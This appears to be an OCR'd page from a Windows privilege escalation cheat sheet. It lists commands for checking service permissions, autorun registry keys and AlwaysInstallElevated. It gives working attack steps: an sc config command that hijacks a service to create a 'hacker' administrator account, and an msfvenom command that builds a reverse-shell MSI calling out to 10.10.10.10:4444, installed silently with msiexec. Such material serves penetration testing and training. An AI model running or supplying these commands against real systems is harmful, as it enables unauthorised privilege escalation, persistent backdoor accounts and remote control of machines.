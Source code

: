 ```powershell
# Check service permissions (using accesschk from Sysinternals)
accesschk.exe -uwcqv "Authenticated Users" * /accepteula
accesschk.exe -uwcqv "Everyone" * /accepteula
accesschk.exe -uwcqv "BUILTIN\Users" * /accepteula

# Check specific service
accesschk.exe -ucqv ServiceName /accepteula

# PowerShell version (requires RSAT tools)
Get-ServiceAcl -Name ServiceName | Select-Object -ExpandProperty Access
```

### Service Binary Permissions

```powershell
# Check service binary permissions
icacls "C:\path\to\service\executable.exe"

# Check if current user can modify the executable
accesschk.exe -qwvu "UserName" "C:\path\to\service\executable.exe"
```

### Modifying Service Configuration

```powershell
# Modify service binary path (if you have permissions)
sc config ServiceName binPath= "cmd.exe /c net user hacker Password123! /add && net localgroup Administrators hacker /add"

# Start/stop service
net start ServiceName
net stop ServiceName
```

## Registry Exploits

### AutoRuns

```powershell
# Check auto-run executables
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce
reg query HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
reg query HKCU\SOFTWARE\Microsoft\Windows\CurrentVersion\RunOnce

# PowerShell version
Get-ItemProperty -Path 'HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Run'
```

### AlwaysInstallElevated

```powershell
# Check if AlwaysInstallElevated is enabled
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated

# If both return 0x1, create malicious MSI:
# Using msfvenom
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f msi -o malicious.msi

# Install the malicious MSI
msiexec /quiet /qn /i malicious.msi
```
